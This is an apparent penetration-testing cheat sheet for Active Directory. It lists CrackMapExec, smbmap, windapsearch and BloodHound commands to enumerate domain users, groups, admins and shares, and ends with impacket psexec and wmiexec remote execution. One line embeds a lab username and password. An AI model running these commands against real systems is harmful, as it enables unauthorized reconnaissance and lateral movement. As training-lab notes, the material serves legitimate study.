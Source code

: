 ```yaml
---
legal-banner: true
---
```


### **USING CRACKMAPEXEC (CME)**

1.  Enumerate Domain Users:  
    `sudo crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] --users`
    
2.  Enumerate Domain Groups:  
    `sudo crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] --groups`
    
3.  Enumerate Logged On Users:  
    `sudo crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] --loggedon-users`
    
4.  Enumerate Shares:  
    `sudo crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] --shares`
    
5.  Enumerate Shares (Spider):  
    `sudo crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] -M spider_plus --share`
    

### **USING SMBMAP**

1.  Check Access:  
    `smbmap -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -H [IP-ADDRESS]`
    
2.  Recursive List of All Directories:  
    `smbmap -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -H [IP-ADDRESS] -R 'Department Shares' --dir-only`
    

### **USING WINDAPSEARCH**

1.  Enumerate Domain Admins:  
    `python3 windapsearch.py --dc-ip [IP_ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --da`
    
2.  Enumerate Privileged Users:  
    `python3 windapsearch.py --dc-ip [IP_ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] -PU`
    

### **USING BLOODHOUND**

1.  Execute BloodHound.py:  
    `sudo bloodhound-python -u '[USERNAME]' -p '[PASSWORD]' -ns [IP-ADDRESS] -d [DOMAIN] -c all`
    
2.  Start Neo4j service:  
    `sudo neo4j start`
    
3.  Start BloodHound GUI:  
    `bloodhound`
    

`/opt/Windows/BloodHound_Python/bloodhound.py -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.219.122`

grap all useremail from usernmae bloodhound file :  
`cat 202020020_user.json | jq '.data[].Properties.name' | cut -d '"' -f 2 > useremail.txt`  
to extract all user from user  
`cat useremail.txt | cut -d '@' -f 1 > users.list`

### **USING IMPACKET PSEXEC**

1.  psexec.py:  
    `psexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`
    
2.  wmiexec.py:  
    `wmiexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`